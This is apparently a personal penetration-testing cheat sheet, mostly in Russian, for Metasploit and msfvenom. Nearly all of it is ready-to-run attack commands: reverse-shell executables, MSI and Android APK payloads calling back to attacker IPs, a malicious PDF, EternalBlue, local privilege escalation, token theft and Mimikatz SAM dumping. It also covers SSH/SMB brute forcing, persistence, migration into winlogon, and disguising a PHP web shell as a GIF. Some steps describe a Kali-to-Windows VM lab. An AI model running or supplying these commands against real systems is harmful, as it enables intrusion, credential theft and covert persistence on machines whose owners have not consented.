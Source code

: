 # MetaSploit

https://habr.com/ru/companies/npoechelon/articles/347702/  (описание работы)

searchsploit desctop control   поиск эксплойта для названия

# расширение incognito для работы с токенами
в метерпретер - load incognito
   list_tokens -u
   
# использование эксплйтов ядра
Kali VM

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open an additional command prompt and type: msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe > shell.exe
7. Copy the generated file, shell.exe, to the Windows VM.

Windows VM

1. Execute shell.exe and obtain reverse shell

Detection & Exploitation

Kali VM

1. In Metasploit (msf > prompt) type: run post/multi/recon/local_exploit_suggester
2. Identify exploit/windows/local/ms16_014_wmi_recv_notif as a potential privilege escalation
3. In Metasploit (msf > prompt) type: use exploit/windows/local/ms16_014_wmi_recv_notif
4. In Metasploit (msf > prompt) type: set SESSION [meterpreter SESSION number]
5. In Metasploit (msf > prompt) type: set LPORT 5555
6. In Metasploit (msf > prompt) type: run

# Содаем исполнимый файл для виндовс

msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe

# Создаем реверс шелл для виндовс

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 (только дописать -->     Invoke-PowerShellTcp -Reverse -IPAddress 10.18.35.17 -Port 4545)

https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/

https://www.revshells.com/

c meterpreter сессией

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.50.200 lport=5555 -f exe -o sh1.exe

проверено для netcat

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.35.17 LPORT=53 -f exe -o reverse.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.18.35.17 LPORT=7777 -f exe -o Zero.exe

msfvenom –platform windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.8.0.28 LPORT=4444 -f msi -o tmp/rev.msi



Включаем хендлер

rlwrap nc -lvnp 7777

вместо неткат для метасплойт

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set payload windows/x64/meterpreter_reverse_tcp

set PAYLOAD windows/x64/shell_reverse_tcp

Миграция в процесс

migrate -N winlogon.exe

Для АНДРОИД

msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.50.123 lport= 5555 R> Test.apk

Эксплоит в PDF​
Так же для фреймворка не составит труда сгенерировать PDF файл с полезной нагрузкой и аналогичным образом подключиться к нему. Давайте же приступим!

Здесь уже msfvenom нам не понадобиться, будем всё делать прямиком в метасплоите, поэтому снова его запускаем msfconsole.

Далее прописываем вот такие команды:

Код:

use exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs


Здесь будет задействован эксполит, который будет встроен в PDF файл

Код:

set lhost 192.168.0.9

set lport 4444

set filename Test3.pdf


Здесь задаём имя нашему файлу


# Для брута 
use auxiliary/scanner/ssh/ssh_login

use auxiliary/scanner/smb/smb_login
set rhost
set 

# МИМИКАТЗ в метасплойт

kiwi_cmd lsadump::sam

Поиск уязвимостей ядра

(в метерпретер-сессии)

run post/multi/recon/local_exploit_suggester


# eternalblue в метасплойт

use exploit/windows/smb/ms17_010_eternalblue

   show payloads

set payload windows/x64/shell/reverse_tcp

# из шелла в метерпретер

post/multi/manage/shell_to_meterpreter

# Beб деливери 

use exploit/multi/script/web_delivery

set target 2

set payload windows/meterpreter/reverse_http

set lhost 1221321321
set lport 1231231

run

# настроить постоянное присутствие 

https://www.offsec.com/metasploit-unleashed/meterpreter-service/


# Переделка файла php в gif

echo -e "GIF89a1\n\n$(cat shell.php)" > shell.gif

